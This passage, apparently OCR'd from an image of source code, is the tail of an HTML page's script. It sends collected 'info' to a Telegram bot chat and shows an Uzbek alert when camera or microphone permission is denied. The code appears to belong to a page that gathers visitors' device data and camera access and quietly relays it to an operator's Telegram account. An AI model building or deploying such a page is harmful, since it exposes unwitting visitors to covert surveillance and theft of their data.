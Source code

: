     fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({ chat_id: CHAT_ID, text: info })
    });

  } catch (e) {
    alert("🎥 Kamera yoki 🎤 mikrofonga ruxsat berilmadi!");
    console.error(e);
  }
}

  </script>
</body>
</html>
